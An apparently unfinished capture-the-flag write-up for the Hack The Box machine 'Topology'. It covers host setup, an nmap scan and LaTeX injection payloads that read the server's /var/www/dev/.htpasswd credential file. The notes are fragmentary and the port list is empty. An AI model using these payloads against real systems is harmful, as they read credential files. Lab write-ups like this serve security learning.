 # #1 Introduction
<img width="691" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/17b93d9f-213a-43e4-8df5-45d166672edb">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx topology.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- topology.htb
```

we got these open ports
```bash

```

# #3 user.txt

## HTTP (port 80)


\newread\f
\openin\f=/var/www/dev/.htpasswd
\read\f to\l
\text{\l}
textbackslash

\newread\f \openin\f=/var/www/dev/.htpasswd \read\f to\l \read\f to\l \read\f to\l \text{\l}

\detokenize{abc_def\#gh}


\newread\f \openin\f=/var/www/dev/.htpasswd \read\f to\l \text{\l}

dev
stats
latex
wildwest
cgi-bin

